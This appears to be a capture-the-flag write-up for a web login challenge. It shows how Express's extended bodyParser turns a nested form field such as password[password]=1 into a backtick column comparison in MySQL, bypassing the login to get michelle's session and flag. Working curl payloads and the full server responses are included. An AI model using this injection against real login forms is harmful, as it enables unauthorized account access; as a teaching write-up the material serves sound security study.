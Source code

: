 Knowledge:
- MySQL SELECT command (for payload construction)
- Node JS (for prototype testing)

Task: We are given a login form and webserver's logic. Our goal is to login as michelle.

Investigation: 
- Test with common SQL injections. Failed
- Test with standard user/pass = admin/admin. Passed

Upon navigating through the /flag directory, we are informed that only "michelle's account" can see the flag. Since common SQL injections do not work, we need to understand how server parses the login form
Base on the given source app.js, the express server uses bodyParser module to process the form. With "extended" property is set to true, the form will be parsed with the qs library.

var bP = require("bodyParser")
var ret = bP.parse("password[age]=13")
console.log(ret) # The result is {password:{'age'='13'}}

We now have some ideas of what should be included in the form. Let's setup the local server (web, database) and how the webserver would parse our payload. We add a couple of console.log(sql) into the server source file to observe the prepared statement.

curl -v http://localhost:3000/login -d 'username=michelle&password[age]=13'
#-v tells the target webserver
#-d tells what variable we will post to the server

and we are presented with the following error

code: 'ER_BAD_FIELD_ERROR',
errno: 1054,
sqlMessage: "Unknown column 'age' in 'where clause'",
sqlState: '42S22',
index: 0,
sql: "Select * from users where username = 'michelle' and password = `age` = '13'"

This error is informative. It tells us how the final sql statement looks like, and what error we should fix to make our payload works. Since backtick is allowed, `age` is evaluated as a column. Indeed, the password part of the payload is not correctly crafted. 
Roughly speaking, we were asking for a user whose username is michelle and his password is equal to his age, which does not exist in the database. We can change the payload so that the statement becomes

Select * from users where username = 'michelle' and password = `password` = '13'

Since the password column is known, we fixed the error. However, we need to handle the '13'. Leaving it empty will cause syntax error, while filling it with random number will not give us the row with michelle's account.
MySQL evaluates the whole statement from left to right, which means that password = `password` would be compared first, then the output of the first comparison is evaluated against '13'. Since the first equality is evaluated to 1 (true), the second equality is evaluated to 0 (false), as '1'!='13'.
To solve this, we set 13 to 1. Our expected sql statement is then:

"Select * from users where username = 'michelle' and password = `password` = '1'"

while is equivalent to the following payload:

curl -v http://localhost:3000/login -d 'username=michelle&password[password]=1' 

Replacing the local address with log-me-in website, we can obtain michelle's session:

#Request
curl -v https://log-me-in.web.ctfcompetition.com/login -d'username=michelle&password[password]='1''

#Response
 POST /login HTTP/2
> Host: log-me-in.web.ctfcompetition.com
> user-agent: curl/7.68.0
> accept: */*
> content-length: 38
> content-type: application/x-www-form-urlencoded
> 
* We are completely uploaded and fine
* Connection state changed (MAX_CONCURRENT_STREAMS == 100)!
< HTTP/2 302 
< content-type: text/plain; charset=utf-8
< x-powered-by: Express
< location: /me
< vary: Accept
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
< set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly
< x-cloud-trace-context: 0454fe252df470a913b976399f989e68
< date: Sat, 29 Aug 2020 07:55:09 GMT
< server: Google Frontend
< content-length: 25
< 
* Connection #0 to host log-me-in.web.ctfcompetition.com left intact
Found. Redirecting to /me.

Decoding the session with base64, we obtain the flag:

{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
